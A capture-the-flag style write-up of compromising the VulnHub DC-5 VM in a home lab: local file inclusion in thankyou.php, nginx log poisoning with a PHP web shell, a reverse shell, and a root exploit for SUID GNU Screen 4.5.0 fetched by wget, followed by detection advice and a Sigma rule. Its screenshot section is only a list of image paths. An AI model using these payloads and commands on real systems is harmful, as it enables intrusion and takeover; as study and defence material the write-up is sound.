# VulnHub DC-5: LFI to RCE via Apache Logs, Root through GNU Screen 4.5.0

## Objective

Full compromise of VulnHub's "DC: 5" boot2root VM, on an isolated VirtualBox host-only network
against my own Kali attack box. One flag, root required.

## What I did

1. Host discovery and a full scan:
   ```
   arp-scan -l
   nmap -A 192.168.56.117
   ```
   Two services: 80/tcp (nginx 1.6.2) and 111/tcp (rpcbind). Added `192.168.56.117 dc-5` to
   `/etc/hosts`.

2. The site is a simple brochure page (Home / Solutions / About Us / FAQ / Contact) with a
   working contact form. Submitting the contact form redirects to `thankyou.php` with the
   submitted fields passed as GET parameters, and the FAQ page's server error log was visibly
   exposed in the page footer — a strong sign `thankyou.php` is including a file by path.

3. Confirmed local file inclusion by passing a `file` parameter to `thankyou.php`:
   ```
   http://dc-5/thankyou.php?file=/etc/passwd
   ```
   This returned the full passwd file, confirming unauthenticated LFI.

4. Pivoted the LFI to log poisoning. nginx's own error log records failed PHP-FPM requests
   verbatim, including the request path — so a payload placed in the request line itself gets
   written into the log file as plain text:
   ```
   curl "http://dc-5/thankyou.php?firstname=abc&lastname=xyz&file=/var/log/nginx/error.log&cmd=id"
   ```
   Including that same log file via the LFI (`file=/var/log/nginx/error.log`) then executes
   whatever PHP got poisoned into it — confirmed by including a `<?php system($_GET['cmd']); ?>`
   payload via a raw TCP request and seeing it logged, then triggering it through the LFI with
   `&cmd=id` for code execution.

5. Converted the log-poisoning RCE into an interactive shell: started `rlwrap nc -lvnp 4444`,
   then triggered the poisoned log with a `cmd` payload that opened a reverse shell back to my
   Kali box. Landed as `www-data`.

6. Basic enumeration as `www-data`:
   ```
   export TERM=xterm-256color
   sudo -l          # "sudo: command not found" — not installed on this box
   find / -perm -u=s -type f 2>/dev/null
   ```
   The SUID binary list included `/bin/screen-4.5.0` — a non-standard, clearly deliberately
   placed SUID copy of GNU Screen (the normal Debian package doesn't ship Screen SUID root).

7. GNU Screen 4.5.0 is vulnerable to a well-known local root exploit (EDB-41154) abusing Screen's
   `/etc/ld.so.preload` handling while running SUID root. Fetched the public PoC:
   ```
   searchsploit -m linux/local/41154.sh
   python3 -m http.server 8080      # on Kali, serving the exploit
   wget http://192.168.56.102:8080/41154.sh     # on dc-5
   chmod 755 41154.sh && ./41154.sh
   ```

8. The exploit compiles a small shared library and a setuid shell wrapper, then abuses the SUID
   Screen binary to load that library via `/etc/ld.so.preload`, ending in a root shell:
   ```
   whoami
   root
   ```

9. Confirmed root: `cd /root && cat thisistheflag.txt` — the box's own congratulations banner, no
   `flag{}`-style token to capture.

## What I found

- An unauthenticated LFI in `thankyou.php` (`file` parameter, no path validation at all).
- The same LFI chained into full RCE via nginx error-log poisoning — a classic LFI-to-RCE pattern
  that works whenever an attacker can get arbitrary content logged somewhere the LFI can reach.
- A non-standard SUID-root copy of GNU Screen 4.5.0 sitting on the box, vulnerable to a public,
  pre-built local-root exploit (EDB-41154) with no mitigating controls at all.

## How I found it

**Recon and LFI**












**Log poisoning to RCE and a shell**









**Privilege escalation to root**









## Detection

- **Unauthenticated LFI probing:** repeated requests to `thankyou.php` with a `file` parameter
  containing path-traversal sequences (`../`) or absolute paths (`/etc/`, `/var/log/`) is
  unambiguous and trivial to alert on at the WAF layer — there's no legitimate use case for a
  contact-form confirmation page to accept a file path at all.
- **Log poisoning:** any request whose own request line or parameters contain PHP tags (`<?php`)
  is itself a strong indicator, independent of what happens afterward — most WAF rulesets already
  block this pattern by default.
- **Reverse shell spawn:** `www-data` (nginx's worker process) spawning `/bin/sh` or a Python
  process that then forks a shell is the same high-fidelity process-tree signal seen on every
  other LFI/RCE chain in this series.
- **SUID GNU Screen exploitation:** a non-standard SUID binary existing at all is the real root
  cause here — a periodic audit of SUID/SGID binaries against a known-good baseline
  (`find / -perm -4000` diffed against a clean install) would have caught this before exploitation
  was even possible. At runtime, Screen writing to `/etc/ld.so.preload` is never legitimate
  behaviour and is a high-confidence detection on its own.

A minimal Sigma rule for the `/etc/ld.so.preload` write:

```yaml
title: Write to ld.so.preload
status: experimental
description: Detects a write to /etc/ld.so.preload, a classic SUID-binary privilege-escalation
    technique (e.g. the GNU Screen 4.5.0 local-root exploit).
logsource:
    category: file_event
    product: linux
detection:
    selection:
        TargetFilename: '/etc/ld.so.preload'
    condition: selection
falsepositives:
    - Legitimate system configuration during provisioning (should be rare and allow-listed)
level: high
```

## Tools used

arp-scan, nmap, curl, raw TCP requests (via `nc`), rlwrap, netcat, searchsploit, Python's built-in
HTTP server, the public GNU Screen 4.5.0 local-root exploit (EDB-41154).
